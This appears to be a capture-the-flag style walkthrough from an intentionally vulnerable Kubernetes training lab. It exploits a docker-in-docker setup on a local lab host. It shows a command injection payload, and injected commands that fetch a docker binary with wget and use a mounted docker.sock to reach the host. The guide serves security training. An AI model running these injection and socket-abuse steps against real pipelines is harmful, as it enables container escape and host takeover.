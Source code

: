 # DIND(docker-in-docker) exploitation

## Scenario Information

Most of the CI/CD and pipeline system which use Docker and build containers for you with in the pipeline use something called DIND (docker-in-docker). Here in this scenario, we try to exploit and gain access to host system.

* To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231) and username is `admin` and password `kubernetesgoat`

![Scenario 2 Login](images/sc-2-1.png)

![Scenario 2 Home](images/sc-2-2.png)

## Scenario Solution

* By looking at application functionality, identified that it has command injection vulnerability

```bash
madhuakula.com; id
```

![Scenario 2 Command Injection](images/sc-2-3.png)

* After performing quite some analysis, identified the there is a `docker.sock` mount available in the file system

```bash
mount
```

![Scenario 2 mount](images/sc-2-4.png)

* Download the `docker` static binary from internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/)

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

![Scenario 2 download docker binary](images/sc-2-5.png)

* Extract the binary from the `docker-19.03.9.tgz` file

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

![Scenario 2 extract binary](images/sc-2-6.png)

* Access he host system by running the following docker commands with `docker.sock`

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock ps
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![Scenario 2 extract binary](images/sc-2-7.png)

## Miscellaneous

TBD
